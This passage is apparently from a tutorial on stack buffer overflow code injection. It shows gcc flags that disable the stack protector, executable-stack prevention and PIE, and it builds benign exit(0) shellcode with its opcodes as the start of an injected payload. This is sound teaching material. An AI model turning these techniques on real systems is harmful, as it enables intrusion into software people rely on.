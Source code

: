 We need to compile this C program with some special flags to disable protections imposed by the `gcc` compiler: 

```bash
gcc -fno-stack-protector -z execstack -no-pie -o main main.c
```

The options used to compile `main.c` are:
1. `-fno-stack-protector`: 
2. [`-z execstack`](https://man7.org/linux/man-pages/man8/execstack.8.html): Parameter to the linker that enables execution of code in the stack memory
3. [`-no-pie`](https://stackoverflow.com/a/50615370/13546426): Disables the production of position independent code/executable (PIE)

We generate the shell-code that calls the `exit(0)` syscall in the target program's running process. The execution of such shell-code should immediately end the target program with an exit-code of 0. We can write the source code of the shell-code in C, but we choose to write it in x64 Assembly as we observe the internals more clearly.

To create the final payload that we inject in the target program, we need the following:
1. Raw binary/hex codes that represent the instructions of the code we wish to execute
2. Address of array `buffer` in the target program. This is the return-address of the `vulnerable_function` in the target program we set to execute our code.

![[rce_payload_structure.png]]

### Generating Binary Code For `exit(0)`

The following Assembly code executes the [`exit()` syscall in Linux](https://man7.org/linux/man-pages/man2/_exit.2.html):

```asm
; shellcode.s
section .text
global _start
_start:
    xor rax, rax        ; Clear rax
    mov al, 60          ; Syscall number for exit (60)
    xor rdi, rdi        ; status = 0
    syscall             ; Call exit
```

We compile and link the ASM code above using `nasm` and `ld`,

```bash
nasm -f elf64 -o shellcode.o shellcode.s
ld shellcode.o -o shellcode
```

We can check the op-codes and decompiled ASM for the ELF executable `shellcode` using `objdump`,

```bash
objdump -M intel -d shellcode
```

```
Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 c0                xor    rax,rax
  401003:       b0 3c                   mov    al,0x3c
  401005:       48 31 ff                xor    rdi,rdi
  401008:       0f 05                   syscall
```

